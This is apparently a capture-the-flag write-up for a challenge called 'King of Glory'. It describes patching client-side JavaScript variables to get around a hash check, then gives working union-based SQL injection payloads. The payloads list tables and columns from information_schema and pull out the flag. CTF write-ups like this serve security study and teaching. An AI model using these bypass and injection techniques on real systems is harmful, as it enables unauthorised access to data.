 King of Glory is a funny game. Our website has a list of players.
http://202.120.7.213:11181

Solve:
The goal here is to bypass client side sqli check, we need to patch the functionn.js to make it work for us to generate valid hash for our id.
In order to patch this, I opened 2 chrome tab, and debug the js being executed for:
Module.main(1);
and Module.main('q');

It turns out that the second query failed to pass the check in #7633 and #7659
after patch them with adding:
$13 = true;
$25 = true;

Module.main('q') will generate valid hash for us.
After that it is just simple sql injection.

I also created a nodejs file to make it easier.

<pre>
<code>
node test.js "100 union select 1,CONCAT(table_name,0x20) FROM information_schema.tables -- "
gave us table name: fl4g
</code>
</pre>

<pre><code>
node test.js "100 union select 1,CONCAT(column_name,0x20) FROM information_schema.columns WHERE table_name = 'fl4g' -- "
gave us column name: hey
</code>
</pre>

<pre><code>
node test.js "100 union select 1,hey from fl4g -- "
gave us flag: flag{emScripten_is_Cut3_right?}
</code></pre>
